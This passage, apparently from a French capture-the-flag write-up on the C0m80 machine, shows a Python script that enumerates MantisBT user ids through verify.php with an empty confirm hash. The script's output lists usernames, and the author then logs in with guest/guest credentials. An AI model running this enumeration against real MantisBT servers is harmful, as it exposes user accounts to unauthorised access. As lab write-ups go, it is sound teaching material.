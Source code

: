 ```python
import requests
from bs4 import BeautifulSoup

MAX_ID = 1000

sess = requests.session()
for i in range(MAX_ID):
    url = "http://c0m80.ctf/bugs/verify.php?id={}&confirm_hash=".format(i)
    response = sess.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    input_tag = soup.find("input", id="realname", value=True)
    if input_tag:
        print("Found user id {}: '{}'".format(i, input_tag["value"]))
```

Nous ramène une petite liste d'utilisateurs :  

```plain
Found user id 1: 'bob'
Found user id 2: 'guest'
Found user id 3: 'Jeff Deucette'
Found user id 4: 'alice'
Found user id 5: 'Mr Don Cheung'
```

Et victoire... on peut se connecter sur le *Mantis* avec *guest / guest*.  

Avec les droits dont on dispose on peut consulter la discussion sur le bug 6 pour le projet *NotepadPussPuss++* (on y trouve un lien vers l'archive *http://c0m80.ctf/bin/npp.zip*) et celle pour le bug 3 du projet *bestFTPserver\_public*.  

![C0m80 MantisBT capture](https://github.com/devl00p/blog/raw/master/images/c0m80/c0m80_bug3.png)
